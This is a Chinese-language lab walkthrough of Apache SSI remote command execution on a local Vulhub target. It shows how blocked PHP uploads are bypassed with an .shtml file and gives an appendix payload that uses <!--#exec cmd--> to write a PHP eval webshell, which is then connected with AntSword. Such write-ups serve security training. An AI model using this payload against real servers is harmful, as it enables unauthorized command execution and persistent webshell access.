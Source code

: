 # 一、概述
* 什么是`SSI`服务，`SSI`即为：服务器端内嵌，是一种大多数仅用于互联网的简单解释性服务端脚本语言，说这些可能比较生涩不容易理解，简单点说就是一种类似于ASP基于服务器的网页制作技术。
* 例如：如使用了SSI，可以在HTML文件中通过注释行嵌入经常会变化的共用部分，例如登入讯息等。可以不需要重新生成所有article，服务器会根据嵌入文件自动生成网页，输出到浏览器，如要修改则只需要修改嵌入的文件即可，无需重新生成所有HTML文件，服务器包含这种方式与php的include类似。
* 服务管理者通常使用，进行配置SSI服务
```
AddType text/html .shtml
AddOutputFilter INCLUDES .shtml
ptions Includes // Includes 为追加 如include的内容不需要exec，则使用IncludesNoExec
```
* 再次举例：（前提是已经开启了SSI服务）
    * 我本地web目录下有2个子目录和一个index.html：
        * a文件夹：在a文件夹下有一个a.html
            * a.html
        * b文件夹：在b文件夹下有一个b.html
            * b.html
        * index.html
    * a.html内容为：
        ```
        <p>mmmmmmmm</p>
        <!--#include virtual="../index.html"-->
        ```
    * b.html内容为：
        ```
        <!DOCTYPE html>
        <html>
        <head>
            <meta charset="utf-8">
            <title>test</title>
        </head>
        <body>
        <p>输入框</p>
        <input  placeholder="hello" />
        <p>hhhhhhh</p>
        <p>dfsdfdfi</p>
        <!--#include virtual='../include/a.html'-->
        </body>
        </html>
        ```
    * index.html内容为：
        ```
        <button>点击一下</button>
        ```
    * 当用户访问b.html的时候，就会自动引入a.html，并且index.html也会通过a.html引入进来
* 回到正题：那么SSI远程命令执行漏洞是什么：在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用<!--#exec cmd="id" -->语法执行任意命令。

# 二、影响版本：
* apache server http 开始ssi服务

# 三、靶场搭建
* 这里我使用的是`Vulhub`线下靶场搭建
```
root@wq:/home/wq/vulhub-master/httpd/ssi-rce# pwd
/home/wq/vulhub-master/httpd/ssi-rce
root@wq:/home/wq/vulhub-master/httpd/ssi-rce# ls
1.png  2.png  docker-compose.yml  Dockerfile  README.md  upload.php
root@wq:/home/wq/vulhub-master/httpd/ssi-rce# docker-compose build 
root@wq:/home/wq/vulhub-master/httpd/ssi-rce# docker-compose up -d
Creating network "ssi-rce_default" with the default driver
Creating ssi-rce_apache_1 ... done
root@wq:/home/wq/vulhub-master/httpd/ssi-rce#
```
* 验证靶场环境：开始访问：`http://192.168.10.134:8080/upload.php`,正常访问，靶场搭建成功
![图 23](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-182817999.png)  

# 四、漏洞复现
* 发现漏洞过程：
    * 观察中间件是什么，这里我们发现是`apache`与`php`
    ![图 24](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-183025814.png)  
    * 拿到了可以文件上传的点，我们的第一反应是想要去尝试是否可以上传PHP木马文件，进行测试，开启`BP`抓包进行上传木马文件测试，发现php文件上传被阻拦了，并发现了敏感关键字可接受的文件类型包含`.shtml`
    ![图 25](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-183704602.png)  
    * 被阻拦后我们就要想要尝试进行绕过：例如：看到了服务版本是2.4.48，就可以想到了文件后缀解析绕过的方式，我们进行第二次尝试。看到结果好像是成功了，但是实际上在访问的时候解析是有问题的，无法成功用webshell连接成
    ![图 26](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-184034727.png)  
    ![图 27](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-184437694.png)  
    * 我们再次尝试使用使用`.shtml`后缀的文件进行绕过，发现绕过成功
    ![图 28](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-184900179.png)  
    * 通过访问已经上传的文件，`http://192.168.10.134:8080/shell.shtml`
    ![图 29](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-185106347.png)  
    * 既然命令是可以执行成的，那么我们开始写php的木马文件，去获取`webshell`，我们在shell.shtml命令中写入木马，重新上传文件
    ![图 31](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-195319953.png)  
    * 再次尝试访问：`http://192.168.10.134:8080/shell.shtml`，为了生成脚本的`1.php`，访问成功后，准备连接`webshell`
    * 再次尝试中国蚁剑连接：发现连接成功
    ![图 33](.images/SSI%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/IMG_20220116-195556877.png)  



# 附录
`shell.shtml`:
```
<!--#exec cmd="echo '<?php $a=$_POST[123];eval(\"$a\"); ?>' > 1.php" -->
```
# 总结：
* 这次的靶场练习需要知道渗透过程中，如何绕过服务提供者设置的策略，猜测可能存在的漏洞，不论是使用文件类型绕过，还是使用ssi上传shtml文件的方式，都只是为了实现自己的木马文件可以上传成功




